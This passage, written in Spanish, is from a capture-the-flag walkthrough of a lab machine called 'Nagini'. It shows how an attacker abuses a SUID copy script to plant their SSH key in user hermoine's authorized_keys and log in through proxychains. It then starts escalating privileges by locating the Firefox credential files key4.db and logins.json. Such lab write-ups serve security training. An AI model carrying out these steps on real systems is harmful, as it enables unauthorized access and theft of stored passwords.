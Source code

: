 Acción:

```bash
cat ~/.ssh/id_rsa.pub | tr -d '\n' | xclip -sel clip    # Máquina atacante
nano /tmp/authorized_keys    # Máquina Nagini
./su_cp /tmp/authorized_keys /home/hermoine/.ssh//authorized_keys
```

Explicación: copiamos a la clipboard nuestra clave pública, la pegamos en un archivo `authorized_keys` que almacenamos en una ruta temporal, para luego ejecutar el script con permisos SUID, que nos copie nuestra clave de ssh en el directorio `.ssh` del usuario `hermoine`

Acción:

```bash
proxychains ssh hermoine@10.10.0.129
```

Resultado:

```bash
hermoine@Nagini:~$ 
```

Explicación: aprovechando de un archivo SUID hemos pivotado a un nuevo usuario, ahora lo ideal es tomar el control de root


---

### Elevación de privilegios

Acción:

```bash
cd ./mozilla/firefox
ls
```

Resultado:

```bash
'Crash Reports'   g2mhbq0o.default   profiles.ini
'Pending Pings'   installs.in
```

Explicación: 

Acción:

```bash
cd g2mhbq0o.default
ls
```

Resultado:

```bash
key4.db
logins.json
```
